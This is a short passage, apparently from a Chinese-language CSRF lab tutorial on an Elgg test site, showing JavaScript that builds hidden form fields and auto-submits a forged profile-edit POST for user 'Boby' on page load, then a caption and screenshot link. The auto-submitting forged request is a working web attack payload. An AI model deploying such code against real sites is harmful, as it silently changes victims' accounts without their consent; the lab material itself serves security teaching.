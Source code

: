 ```
        document.body.appendChild(p);
        //submit the form
        p.submit();
    }
    function csrf_hack()
    {
        var fields;
        // The following are form entries that need to be filled out
        // by attackers. The entries are made hidden, so the victim
        // won't be able to see them.
        fields += "<input type='hidden' name='name' value='Boby'>";
        fields += "<input type='hidden' name='description' value='test'>";
        fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
        fields += "<input type='hidden' name='briefdescription' value='test'>";
        fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
        fields += "<input type='hidden' name='location' value='test'>";
        fields += "<input type='hidden' name='accesslevel[location]' value='2'>";
        fields += "<input type='hidden' name='guid' value='40'>";
        var url = "http://www.csrflabelgg.com/action/profile/edit";
        post(url,fields);
    }
    // invoke csrf_hack() after the page is loaded.
    window.onload = function() { csrf_hack();}
    </script>
    </body></html> 
```

Boby 用户访问前：

![图片描述信息](img/userid9094labid936time1430186567992.jpg)
